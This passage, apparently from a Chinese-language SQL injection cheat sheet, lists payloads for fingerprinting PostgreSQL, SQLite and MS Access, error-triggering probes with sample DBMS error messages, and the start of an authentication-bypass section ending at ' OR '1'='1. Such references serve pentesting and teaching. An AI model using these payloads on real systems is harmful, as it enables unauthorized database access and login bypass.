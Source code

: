 | POSTGRESQL          | `5::int=5` |
| POSTGRESQL          | `5::integer=5` |
| POSTGRESQL          | `pg_client_encoding()=pg_client_encoding()` |
| POSTGRESQL          | `get_current_ts_config()=get_current_ts_config()` |
| POSTGRESQL          | `quote_literal(42.5)=quote_literal(42.5)` |
| POSTGRESQL          | `current_database()=current_database()` |
| SQLITE              | `sqlite_version()=sqlite_version()` |
| SQLITE              | `last_insert_rowid()>1` |
| SQLITE              | `last_insert_rowid()=last_insert_rowid()` |
| MSACCESS            | `val(cvar(1))=1` |
| MSACCESS            | `IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0` |

### 基于错误的 DBMS 识别

不同的 DBMS 在遇到问题时返回不同的错误消息。通过触发错误并检查数据库返回的具体消息，通常可以识别出网站使用的 DBMS 类型。

| DBMS                | 示例错误消息                                                                    | 示例负载         |
| ------------------- | -------------------------------------------------------------------------------|-----------------|
| MySQL               | `You have an error in your SQL syntax; ... near '' at line 1`                            | `'`             |
| PostgreSQL          | `ERROR: unterminated quoted string at or near "'"`                                       | `'`             |
| PostgreSQL          | `ERROR: syntax error at or near "1"`                                                     | `1'`            |
| Microsoft SQL Server| `Unclosed quotation mark after the character string ''.`                                 | `'`             |
| Microsoft SQL Server| `Incorrect syntax near ''.`                                                              | `'`             |
| Microsoft SQL Server| `The conversion of the varchar value to data type int resulted in an out-of-range value.`| `1'`            |
| Oracle              | `ORA-00933: SQL command not properly ended`                                              | `'`             |
| Oracle              | `ORA-01756: quoted string not properly terminated`                                       | `'`             |
| Oracle              | `ORA-00923: FROM keyword not found where expected`                                       | `1'`            |

## 身份验证绕过

在标准的身份验证机制中，用户提供用户名和密码。应用程序通常会将这些凭据与数据库进行比较。例如，SQL 查询可能看起来像这样：

```SQL
SELECT * FROM users WHERE username = 'user' AND password = 'pass';
```

攻击者可以尝试将恶意 SQL 代码注入到用户名或密码字段中。例如，如果攻击者在用户名字段中输入以下内容：

```sql
' OR '1'='1
```
